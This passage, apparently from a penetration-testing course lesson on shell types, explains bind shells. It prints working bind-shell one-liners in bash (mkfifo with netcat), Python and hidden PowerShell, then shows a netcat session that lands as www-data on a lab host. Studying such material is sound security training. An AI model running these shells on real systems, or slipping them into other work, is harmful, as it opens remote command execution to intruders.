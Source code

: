 Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

---

#### Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use to connect to that port and get a connection to the shell:`netcat`

  Types of Shells

```shell-session
zunderrubb@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we are directly dropped into a bash session and can interact with the target system directly. Unlike a , if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.`Reverse Shell`

---

#### Upgrading TTY
